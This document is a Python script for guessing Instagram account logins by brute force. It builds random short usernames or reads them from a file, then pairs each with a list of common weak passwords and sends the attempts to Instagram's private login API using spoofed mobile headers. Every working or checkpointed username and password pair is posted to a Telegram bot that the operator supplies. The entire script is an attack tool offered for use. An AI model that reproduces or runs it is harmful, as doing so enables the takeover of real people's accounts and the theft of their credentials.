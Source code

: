 import requests
from user_agent import generate_user_agent
import os
import sys
import time
import requests
import os
import random
from cfonts import render
import uuid
from uuid import uuid4
B="\033[1;30m" # Black
R="\033[1;31m" # Red
G="\033[1;32m" # Green
Y="\033[1;33m" # Yellow
Bl="\033[1;34m" # Blue
P="\033[1;35m" # Purple
C="\033[1;36m" # Cyan
W="\033[1;37m" # White
H="\x1b[38;5;208m" #
M = '\x1b[1;37m'             
B="\033[1;30m"
R="\033[1;31m"
G="\033[1;32m"
Y="\033[1;33m"
Bl="\033[1;34m"
P="\033[1;35m"
C="\033[1;36m"
N="\033[1;37m"
A = '\033[2;34m'
C = '\033[1;34m'
E = '\033[1;33m'
J = "\033[1;31m"
I = '\033[1;32m'
G = '\033[1;97m'
H="\x1b[38;5;208m"

M = '\x1b[1;37m' 
b = random.randint(5,208)
bo = f'\x1b[38;5;{b}m'
j = random.randint(5,208)
jo = f'\x1b[38;5;{j}m'
cc = {
    'red': "\033[1m\033[31m",
    'green': "\033[1m\033[32m",
    'yellow': "\033[1m\033[33m",
    'blue': "\033[1m\033[34m",
    'cyan': "\033[1m\033[36m",
    'magenta': "\033[1m\033[35m",
    'white': "\033[1m\033[37m",
    'orange': "\033[1m\033[38;5;208m",
    'reset': "\033[0m"
}
listoo = ['HI']    
linux = 'clear'
windows = 'cls'
def banner():
   

    print(f'''{C}┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓''')
    
    print(f'''{C}┃{E}{J}CH :{G} @KWFFX{C}     ┃{J}Dev: {G} ETHAN {C} ┃{J}Ig:{G}@_4._0{C} ┃{E}{J}Tele :{G}@RJJVJ''')
    
    print(f'''{C}┗{G}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛{G}''')
   
    print(f'''{C}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━''')
    print('\033[1m' ,render('ETHAN' , font='block', colors=['white' , 'red'], align='center', space=True))
    print(f'''{G}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{G}''')
banner()

token= str(input(f"{H} TOKEN [=] {C}"))
print('')
ID = str(input(f"{H} ID [=] {C}"))
os.system('clear')

[linux, windows][os.name == 'nt']
def ig_user(user):
	url = "https://i.instagram.com/api/v1/accounts/login/"
	payload = {
			"username": username,
			"password": password,
			"device_id": str(uuid.uuid4()),
			'from_reg':'false', 
			'_csrftoken':'missing', 
			'login_attempt_countn':'0'
			}
	headers = {
			  'User-Agent': 'Instagram 113.0.0.39.122 Android (24/5.0; 515dpi; 1440x2416; huawei/google; Nexus 6P; angler; angler; en_US)',
			  'Connection': "Keep-Alive",
			  'Accept-Encoding': "gzip",
			  'Cookie2': "$Version=1",
			  'Accept-Language': "en-CA, en-US",
			  'X-IG-Connection-Type': "WIFI",
			  'X-IG-Capabilities': "AQ==",
			  'Cookie': "mid=Z1X1aQABAAEAq4toJ71ehSMDn2Pq; csrftoken=soBcOp1Fev1JzR9iyqMZjlThIjdRZROn"
			}
	res = requests.post(url, data=payload, headers=headers).text
	if 'checkpoint_challenge_required' in res:
		print(f"{Y} Secur HUNT ✓  @{username}")
		tlg=f'''
 ┒
 ┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 secur acc
 ┗
 ════════════════
 ⌊ Password ⌉  :  {password}
 ⌊ Username ⌉  :  {username}
 ════════════════
 ≣ By @RVVRJ  '''
 
	
		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={tlg}")
	elif 'logged_in_user' in res:
		print(f"{Y} GOOD HUNT ✓  @{username}")
		tlg=f'''
 ┒
 ┃ 𝗡𝗲𝘄 𝗵𝗶𝘁 𝗶𝗴 𝗮𝗰𝗰𝗼𝘂𝗻𝘁
 ┗
 ════════════════
 ⌊ Password ⌉  :  {password}
 ⌊ Username ⌉  :  {username}
 ════════════════
 ≣ By @RVVRJ 
	'''

		
	
		requests.post(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={tlg}")
		
	elif 'The password you entered is incorrect. Please try again.' or 'Incorrect password' or 'bad_password' in res :
		print(f"{R} BAD HUNT × @{username}  : {password}")	
		
banner()
print(f'''
{Bl}𝐖𝐄𝐋𝐂𝐎𝐌𝐄 𝐓𝐎 𝐓𝐇𝐄 {R}  𝐋𝐄𝐆𝐄𝐍𝐃𝐒 {Bl}𝐓𝐎𝐎𝐋 

{N}𝐂𝐇𝐎𝐎𝐒𝐄 𝐅𝐑𝐎𝐌 𝐍𝐔𝐌𝐁𝐄𝐑 

{R}1          {J} - {N} Frome random

{R}2           {J}- {N}From random & your bassword

{R}3           {J}- {N}From list
''')    
ethan = int(input(f'{A}ᴄʜᴏᴏѕᴇ ɴᴜᴍʙᴇʀ   :  {N} '))
if ethan==1:
	while True:
		username = "".join(random.choice('1234567890qwertyuiopasdfghjklzxcvbnm')for i in range(4))
		df=username + "".join(random.choice('1234567890qwertyuiopasdfghjklzxcvbnm')for i in range(2))
		cv=(df,'1234567','qqaazz','112222','BILAL.FF','guhfd45','iop123','qawsedrf','ahmet2000','20002000','19901990','qwer1234','Aa123123','1122331231122')
		password = random.choice(cv)
		user=username
		ig_user(user)
elif ethan ==3:
	try:
		with open('username.txt', 'r') as file:
			users = file.readlines()
			username=users
	except:exit()
	cv=('1234567','qqaazz','112222','BILAL.FF','guhfd45','iop123','qawsedrf','ahmet2000','20002000','19901990','qwer1234','Aa123123','1122331231122','plpl9090')
	password = random.choice(cv)
	for user in username:
		username = user.strip()
		ig_user(user)

elif ethan==2:
	password = str(input(f"{H} enter password [=] {C}"))
	while True:
		username = "".join(random.choice('1234567890qwertyuiopasdfghjklzxcvbnm')for i in range(4))
		user=username
		ig_user(user)				
